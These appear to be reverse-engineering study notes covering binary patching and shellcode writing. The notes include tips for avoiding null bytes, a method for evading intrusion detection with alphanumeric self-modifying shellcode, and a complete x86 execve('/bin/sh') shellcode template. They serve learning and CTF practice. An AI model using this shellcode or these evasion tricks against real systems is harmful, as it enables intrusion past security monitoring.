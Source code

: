 # Common Techniques
These are many common techniques used in different reverse engineering problems.
## Binary Patching
- https://materials.rangeforce.com/tutorial/2020/04/12/Patching-Binaries/
- can be done easily in a decompiler like ida or ghidra
## Command Line Injection
  - changing system file paths
## Shellcode
  - execve(sh, argv, envp): executes the shell
    - sh: is the file
    - argv: multiple argument vector
    - envp: environment variable vector
  - vector in C is ended with NULL to tell how many items are in the vector
  -  don't `use mov eax, 0` don't want a null byte in the payload
  -  al is the lowest byte of eax
  -  envp will be the second element of argv
  -  if execve is blocked there are plenty of other system calls that can be used
  -  write concise shellcode because ids systems will block anything too long
     -  use the stack
     -  use `xor`
     -  use `cbw` and its variant
     -  staging shellcode in environment variables
     -  leverage context 
        -  what is already in registers
  - if you are only using alphanumeric chars
    - construct the real shellcode on the stack at runtime
      - this technique is known as self modifying shellcode
    - this will easily fool ids systems
    - http://phrack.org/issues/57/15.html#article
    - ex.
        ```
        movw $0, %ax   ; 0x66 0xb8 0x00, 0x00, 0x00 (not allowed)
        ->
        andw $0x454e, %ax 
        andw $0x3a31, %ax
        ```
  - it is possible to write exploits that are system blind
    - one technique is opening emulators for each architecture and brute force the byte combinations
  -  useful template for shellcode
``` 
#include <sys/syscall.h> 
#define STRING  "/bin/sh"
#define STRLEN  7
#define ARGV    (STRLEN+1)
#define ENVP    (ARGV+4)

.intel_syntax noprefix
.text

.globl main
.type  main, @function

main:
  jmp     calladdr

popladdr:
  pop    esi                    /* esi points to STRING */
  mov    [ARGV+esi],esi         /* set up argv[0] pointer to pathname */
  xor    eax,eax                /* get a 32-bit zero value */
  mov    [STRLEN + esi],al      /* null-terminate our string */
  mov    [ENVP + esi], eax      /* set up null envp */

  mov    al,SYS_execve          /* syscall number */
  mov    ebx,esi                /* arg 1: string pathname */
  lea    ecx,[ARGV + esi]       /* arg 2: argv */
  lea    edx,[ENVP + esi]       /* arg 3: envp */
  int    0x80                   /* execve("/bin/sh", ["/bin/sh", NULL], [NULL]) */

  xor    ebx,ebx                /* arg 1: 0 */
  mov    eax,ebx
  inc    eax                    /* exit(0) */
  /* mov+inc to avoid null byte */
  int    0x80                   /* invoke syscall */

calladdr:
  call    popladdr
  .string STRING ```